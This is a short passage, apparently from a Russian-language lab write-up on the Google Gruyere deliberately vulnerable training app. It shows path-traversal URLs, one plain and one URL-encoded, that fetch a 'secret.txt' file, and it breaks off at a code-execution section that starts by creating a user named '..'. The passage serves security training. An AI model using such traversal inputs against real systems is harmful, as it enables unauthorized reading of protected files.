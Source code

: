 https://google-gruyere.appspot.com/380075102534537954520940078031300502308/../secret.txt

#### 4-3 Получить файл по пути

https://google-gruyere.appspot.com/380075102534537954520940078031300502308%2f..%2fsecret.txt

![](img/50/результаты%202/15-замененный%20файл-секрет.png)
![](img/50/результаты%202/16-замененный%20файл.png)

### 5. Code Execution

#### 4-1 Cоздать пользователя с именем ..
